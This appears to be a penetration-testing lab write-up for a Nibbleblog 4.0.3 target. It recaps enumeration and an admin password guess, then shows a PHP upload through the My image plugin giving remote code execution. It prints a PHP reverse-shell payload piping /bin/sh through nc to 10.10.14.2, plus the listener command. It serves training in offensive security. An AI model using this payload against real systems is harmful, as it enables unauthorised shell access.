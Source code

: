 Recap:
1. simple `nmap` to show two open ports
2. discovered instance of `Nibbleblog`
3. found `/admin.php` was accessible
4. Discovered directory listting is available
5. Confirmed `admin` was the valid username
6. Found of the hard way there is brute-force protection (Ip blacklisting)
7. Uncovered clues that led us to a valid admin password of nibbles (educated guess)

**Make recordable and clear steps**




## Now that we're admin

in this example we find these following pages:
- `Publish`: making a new post, video post, quote post, or new page. It could be interesting.
- `Comments`: shows no published comments
- `Manage`: Allows us to manage posts, pages, and categories. We can edit and delete categories, not overly interesting.
- `Settings`: Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use. Several settings are available, but none seem valuable to us.
- `Themes`: This Allows us to install a new theme from a pre-selected list.
- `Plugins`: Allows us to configure, install, or uninstall plugins. The My image plugin allows us to upload an image file. Could this be abused to upload PHP code potentially?

When we try to upload a file countaining `<?php system('id'); ?>` we have a bunch of html errors.

Now we want to find where out file was uploaded, we can confirm it with:
```bash
$> curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

So we have remote code execution on the server ! (executed the command `id`)

And apache is running us as user `nibbler`. Now let's use this to have a reverse shell.

Reverse Shell cheat sheets can be found at [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) or [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

Here's our new file:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

and we start a `netcat` listener in out terminal:
```bash
$> nc -lvnp 9443

listening on [any] 9443 ...
```

`curl` the image page again or browse to it in `Firefox` to execute the reverse shell.
